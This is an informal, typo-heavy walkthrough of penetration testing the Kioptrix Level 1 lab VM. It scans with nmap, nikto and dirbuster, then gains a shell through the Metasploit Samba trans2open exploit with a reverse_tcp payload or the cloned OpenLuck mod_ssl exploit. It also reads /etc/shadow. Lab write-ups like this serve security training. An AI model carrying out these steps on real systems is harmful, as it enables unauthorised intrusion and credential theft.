

step 1 : dawnlod kioptrix level1 from google , install it on virtual box ,give 2gb RAm and network adapter as NAT
we follow this report as steps of ethicak hacling
Phase 1 : reconnaissance[information gethering { active /passive}]
first we need to find ip address of machine
as we know there are many ways to find IP address of target machine installed in our network
=> find IP address of target
1. by target machine itself :

2. by attack machine :
ip address of kali :
ifconfig

our target machine IP is nearby to our host machine ip address as they belongs to same network

so . our first finding out target machine IP addres : 192.168.85.129
no check if machine is responsing or not our ping

phase 2 : scanning and enumeration
=> port scaning : nmap
nmap is port scaning tool , which scan for open port uses stealth scaning
we are finding all open port and service associated with them
->nmap -T4 -p- -A 192.168.85.129


namp give us folllowing details
open port : 22 : tcp/ssh : openssh version (2.9p2)
open port :80 : http : apache(1.3.20) [ UNIX ] { redhat /linux}
mod_ssl vresion(2.8.4)
OpenSSL version(0.9.6b)
open port : 111 : tcp : rpcbind
open port :139 : tcp : netbios samba smbd
open port :443 : https : apache(1.3.20) unix { redhat /linux}
open port : 32768 : (rpc # 100024)
device runing on vmware
runing on linux 2.4.X
os details : linux 2.4.9 - 2.4.18
=>we can scan for UDP port also by , but takes alot time due to its connection less nature
->nmap -sU -T4 -p 192.168.85.129
# enumertaion HTTP/HTTPS
search on google
http://192.168.85.129
https://192.168.85.129


as we can see this web page exlpore this page, click on each and every links on this web page and note needed information
also it verify our gethered information like
apache is used
os is redhat linux
=> nikto : it is vulnerability scanner tool


nikto gives us various information like
verify version of server , mod_ssl, openssl
X-xxs protection header not defined
=> outdated version :
openssl 0.9.6b is outdated
mod_ssl is outdated
apache 1.3.20 is outdated
allowed HTTP method : GET , HEAD ,TRACE ,OPTIONS
=> crossponding vulnerability- Trace methon is active , vulnerable to XST
- apache vulnerable to DDos and possible code execution and local buffer overflow and overflow in mod_rewrite & mod_cgi
- mod ssl is vulnerable to remoter buffer overflow
- wealizer may install , vulnerable to XSS(cross side scripting)
=> find files
=> a backdor is identifed
note : we can use nikto for https port 443 also
nikto -h https://192.168.85.129

we have one more tool -> dirbuster : it is web appliction brute force tool

here
target url : http://192.168.85.129 :80/
no of threds : 40
file with list of dir : usr/share/woedlist/dirbuster/directory-list-small.txt
file extension : you can give pdf,jpg,jpeg,php,html,zip, etc
start scan
it finds all directory structure in the target url

you can check each and every directory and searech for information
in usage directory's html pages we find webalizer version (2.01)
# enumerating smb : file sharing : port 139
start meta sploit
->msfconsole

-> search smb
it gives many options with no , we want to see version of samba

so search auxiliary/scanner/smb/smb_version , in my pc it is at 96
we can use it by no or by full name - use 96
- use auxiliary/scanner/smb/smb_version
- -> info

rhost is target so set target
-> set rhost 192.168.85.129

run

this gives us version of smb samba (2.2.1a)
Phase 3 : exploitation
we can use many tools for exploitation
1. meatsploit
open metasploit
-> msfconsole
->searchsploit samba 2.2

samba have many exploit for trans2open so we cam use this
->search trans2open

we know kioptrix have linux so use 1
->use1

set to rhost 192.168.85.129 { target address}
and run or exploit

here our meterpreter session died that means our payload does not worked
we need to change payload ctrl+c to interrupt
->options

not it is giving us payload options : linux/x86/meterpreter/reverse_tcp (staged payload)

metasploit suggest us reverse_tcp payload
we have two payload
1. staged
2. non-staged
try both
#
load staged payload and run
session died

load non staged payload and run

we got access
now we in kioptrix machin terminal
kioptrix is old machine so it doesnt support all modern linux command but it support all other commands.
it support
ls
cat
cat /etc/shadow
cat /etc/passwd
# if you don't want to use metasploit then you can externally dawnlod exlpoit and run it
## mannual exploitation (ssl)
-> dawnlod openluck :https://github.com/heltonWernik/OpenLuck
->clone this
->get openfuck.c script file
->run it by ./openfuck

select required offset and use this according to given syntax


we got access to kioptrix